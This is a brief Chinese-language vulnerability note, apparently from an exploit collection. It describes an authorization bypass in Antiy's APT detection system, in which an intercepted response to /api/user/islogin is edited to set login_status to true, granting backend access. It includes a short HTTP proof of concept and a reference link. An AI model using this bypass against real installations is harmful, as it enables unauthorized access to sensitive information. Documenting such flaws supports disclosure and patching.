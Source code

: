 # 安天高级可持续威胁安全检测系统 越权访问漏洞


安天高级可持续威胁安全检测系统存在越权访问漏洞，攻击者可以通过工具修改特定的返回包导致越权后台查看敏感信息。

通过抓包修改login_status的参数为true达到越权。

poc：

```
GET /api/user/islogin HTTP/1.1
Host：target

Response：
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sun, 18 Apr 2021 10:43:46 GMT
Content-Type: application/json
Content-Length: 51
Connection: close

{"role": "", "login_status": false, "result": "ok"}
```

ref：

https://mp.weixin.qq.com/s/Bmn4w_OGMnC4PFKJX85p8A
